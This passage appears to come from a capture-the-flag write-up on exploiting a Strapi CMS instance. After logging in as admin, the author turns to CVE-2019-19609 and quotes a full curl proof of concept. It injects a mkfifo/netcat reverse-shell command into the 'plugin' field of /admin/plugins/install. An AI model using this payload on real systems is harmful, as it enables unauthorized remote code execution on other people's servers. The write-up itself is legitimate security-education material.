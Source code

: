 

The response gives the admin's username, which I can use to log in at
`/admin`:

![](/img/image-20210802134604970.png)

### RCE

#### Proof of Concept

Now that I'm authenticated, I'll turn back to CVE-2019-19609. Looking at
the [blog
post](https://bittherapy.net/post/strapi-framework-remote-code-execution/),
it's a JSON POST request to `/admin/plugins/install` with command
injection in the `plugin` parameter. They show it as a `curl` command:



    curl -i -s -k -X $'POST' -H $'Host: localhost:1337' -H $'Authorization: Bearer [jwt]' -H $'Content-Type: application/json' -H $'Origin: http://localhost:1337' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f)\",\"port\":\"1337\"}' $'http://localhost:1337/admin/plugins/install'

